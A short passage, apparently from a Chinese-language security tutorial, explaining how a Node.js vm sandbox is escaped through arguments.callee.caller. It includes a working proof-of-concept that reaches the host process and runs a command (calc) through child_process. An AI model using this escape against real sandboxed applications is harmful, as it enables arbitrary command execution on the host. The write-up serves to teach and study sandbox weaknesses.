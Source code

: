 我们是不是可以想象一下，如果我们在沙箱内定义一个函数，在沙箱外调用这个函数，那么这个函数的 arguments.callee.caller 则会返回沙箱外的一个对象，那么我们我们就可以在沙箱内进行逃逸了

```plain
const vm = require('vm');
const func =
    `(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').exec('calc').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
console.log("" + res);
```

[![](assets/1706959000-7088f74f4e44a577f44e3dd64f545b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140542-efb6d4e0-bc10-1.png)

